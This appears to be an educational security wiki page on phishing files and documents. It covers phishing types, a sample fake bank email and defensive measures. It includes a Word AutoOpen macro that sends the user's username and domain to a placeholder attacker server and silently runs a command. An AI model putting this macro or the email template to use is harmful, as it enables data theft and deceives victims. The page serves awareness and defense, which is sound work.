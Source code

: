 # Phishing Files & Documents


# 👉 Overview

---

### 👀 What ?

> Phishing files and documents is a cyberattack method that involves the use of deceptive files or documents to trick users into revealing sensitive information, such as usernames, passwords, and credit card details.
> 

### 🧐 Why ?

> Understanding phishing files and documents is vital as it is one of the most common methods used by cybercriminals to steal sensitive information. As our reliance on digital systems grows, so does the potential for such attacks. This knowledge can help individuals and organizations to better protect themselves against such threats.
> 

### ⛏️ How ?

> To defend against phishing attacks, it's crucial to be aware of suspicious files or documents. This can include files or documents sent via email, downloaded from the internet, or even received through physical storage devices. Always verify the source of the file or document, be wary of unexpected or unsolicited files, and do not open or download files from untrusted sources. Implementing strong security measures, such as antivirus software and firewalls, can also help to detect and block phishing attempts.
> 

### ⏳ When ?

> Phishing attacks began to emerge in the mid-1990s, with the advent of the internet and email communication. However, they have become increasingly sophisticated over time, with phishing files and documents now often disguised as legitimate files from reputable sources.
> 

# ⚙️ Technical Explanations

---

Phishing attacks typically involve social engineering techniques to manipulate users into revealing sensitive information. This may involve the use of seemingly legitimate emails, websites, or documents that trick the user into entering their details. The malicious files or documents may contain hidden scripts or macros that, when opened, can execute code to capture and transmit the user's information. These attacks can be quite sophisticated, often mimicking the appearance and functionality of legitimate files or documents to deceive the user. Defending against such attacks requires a combination of user awareness, technical security measures, and robust policies and procedures.

## Detailed Explanation

### Overview of Phishing Attacks

Phishing is a cyberattack method that leverages social engineering techniques to deceive individuals into divulging confidential or personal information. These attacks can take various forms, including emails, malicious websites, and deceptive documents. The goal of a phishing attack is to gain unauthorized access to sensitive information such as usernames, passwords, and financial details.

### Types of Phishing Attacks

1. **Email Phishing**: Attackers send emails that appear to be from legitimate sources, urging recipients to click on malicious links or download harmful attachments.
2. **Spear Phishing**: A more targeted form of phishing where the attacker customizes the email content based on the victim's personal information.
3. **Whaling**: Targets high-profile individuals such as executives or key decision-makers within an organization.
4. **Smishing and Vishing**: Phishing conducted via SMS (smishing) or voice calls (vishing).

### Example of a Phishing Attack

Let's consider a real-world example for educational purposes. An attacker sends an email that appears to be from a well-known bank, urging the recipient to update their account information due to unusual activity. The email contains a link to a website that looks identical to the bank's legitimate site.

**Email Example**:

```
Subject: Urgent: Unusual Activity on Your Bank Account

Dear Customer,

We have detected unusual activity on your account. Please click the link below to verify your account information to avoid suspension.

[Verify Account]

Thank you,
Your Bank

```

**Malicious Website**:
The website replicates the bank's login page but is hosted on a different domain, often with a subtle misspelling.

### Technical Explanation

When the user clicks the link and enters their login credentials, the malicious website captures this information and sends it to the attacker. Often, the phishing email includes an attachment that, when opened, executes a hidden script or macro.

**Example Code**:
Here is a simplified example of a macro that could be embedded in a Word document:

```
Sub AutoOpen()
    Call Main
End Sub

Sub Main()
    Dim objXML As Object
    Dim objWS As Object
    Set objXML = CreateObject("MSXML2.XMLHTTP")
    Set objWS = CreateObject("WScript.Shell")

    ' URL of attacker's server to send data
    URL = "<http://attacker-server.com/capture.php?data=>" & Environ("Username") & ":" & Environ("UserDomain")
    objXML.Open "GET", URL, False
    objXML.Send

    ' Execute a hidden command
    objWS.Run "cmd /c calc", 0, False
End Sub

```

### Steps to Defend Against Phishing

1. **User Awareness**: Educate users to recognize phishing attempts. Training programs and simulated phishing attacks can help.
2. **Technical Measures**:
    - **Email Filters**: Implement email filtering solutions to detect and block phishing emails.
    - **Antivirus Software**: Use up-to-date antivirus software to detect and prevent malicious attachments.
    - **Firewalls**: Configure firewalls to block traffic from known malicious domains.
3. **Policies and Procedures**: Establish and enforce security policies, such as verifying the sender's authenticity before responding to sensitive information requests.

### Conclusion

Phishing attacks are a prevalent and evolving threat, leveraging social engineering to deceive users into revealing sensitive information. By understanding the techniques used and implementing comprehensive security measures, individuals and organizations can better protect themselves from these malicious attacks. Regular training and awareness, coupled with robust technical defenses, are key components in mitigating the risk of phishing.

### References

- [Anti-Phishing Working Group (APWG)](https://apwg.org/)
- [National Institute of Standards and Technology (NIST) - Phishing](https://www.nist.gov/)
- [Phishing.org - Phishing Information and Prevention](https://www.phishing.org/)
